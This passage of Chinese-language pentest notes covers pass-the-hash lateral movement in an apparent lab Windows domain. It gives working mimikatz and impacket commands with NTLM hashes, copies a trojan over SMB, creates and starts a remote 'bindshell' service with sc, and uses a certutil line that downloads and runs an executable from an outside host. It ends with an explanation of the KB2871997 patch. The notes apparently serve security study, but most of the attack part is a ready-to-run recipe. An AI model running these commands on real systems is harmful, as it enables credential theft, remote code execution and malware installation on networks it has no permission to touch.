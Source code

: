 4. 执行反弹`shell` ，通过定时任务来执行木马文件
    
    ```python
    mimikatz privilege::debug
    mimikatz sekurlsa::pth /user:administrator /domain:sunset.com /ntlm:f98564f9c7fab916678466075899f6e1
    net use \\192.168.111.151\c$
    copy C:\Users\webadmin\Desktop\webserver4444.exe \\192.168.111.151\c$
    sc \\WIN-QCGP8LUPL56.sunset.com create bindshell binpath= "c:\webserver4444.exe"
    sc \\WIN-QCGP8LUPL56.sunset.com start bindshell
    ```
    
    ![image.png](image%205.png)
    

### impacket包实现

1. psexec.py & smbexec.py & wmiexec.py
    
    ```python
    python3 psexec.py -hashes :95e7c9e155ed6f372fbe791c52a5e345 ./administrator@192.168.111.151
    python3 smbexec.py -hashes :95e7c9e155ed6f372fbe791c52a5e345 ./administrator@192.168.111.15
    python3 wmiexec.py -hashes :95e7c9e155ed6f372fbe791c52a5e345 ./administrator@192.168.111.151
    ```
    
    > 前两个返回本地system权限，第三个返回域管理员权限
    > 
    
    | 工具 | 返回权限 | 工作机制 | 适用场景 |
    | --- | --- | --- | --- |
    | **`psexec.py`** | 本地 SYSTEM 权限 | 上传并启动服务，服务默认以 SYSTEM 身份运行 | 需要本地最高权限操作（如读取 SAM、提权等）。 |
    | **`smbexec.py`** | 本地 SYSTEM 权限 | 创建命名管道并模拟 shell，执行命令时以 SYSTEM 身份 | 与 `psexec.py` 类似，但效率略低。 |
    | **`wmiexec.py`** | 域管理员权限 | 直接使用 WMI 和 DCOM，执行命令时以提供的身份运行 | 需要域管理员权限操作（如跨主机管理或域操作）。 |
2. 然后可以通过`certutil`来下载木马文件
    
    ```python
    certutil -urlcache -split -f http://10.24.0.154/artifact_x64.exe 1.exe & 1.exe
    ```
    

### 关于`KB2871997` 补丁

- 是微软发布的安全更新，用于增强 Kerberos 协议的加密安全性。
- 安装后，系统可以优先使用 AES 加密密钥来验证 Kerberos，而非 NTLM 散列。
- **Windows XP/2003/Vista/2008** 等系统默认强制存储 NTLM 散列
- 从 **Windows 8.1/2012 R2** 开始，Kerberos 默认支持并优先使用 AES 密钥
- 如果用户升级了早期版本的系统（如 7/2008 R2/8/2012）并安装了 **KB2871997** 补丁，AES 密钥可以取代 NTLM 散列用于加密和身份验证
- 没打补丁用户都可以连接，打了补丁只能`administrator`连接（RID为500）
- 在这个更新之前，只要用户登录系统，Windows就会在lsass中缓存用户的凭据，包括用户的明文密码、LM/NTLMHASH、Kerberos的TGT票据/SessionKey。更新补丁后会在注销后删除凭证
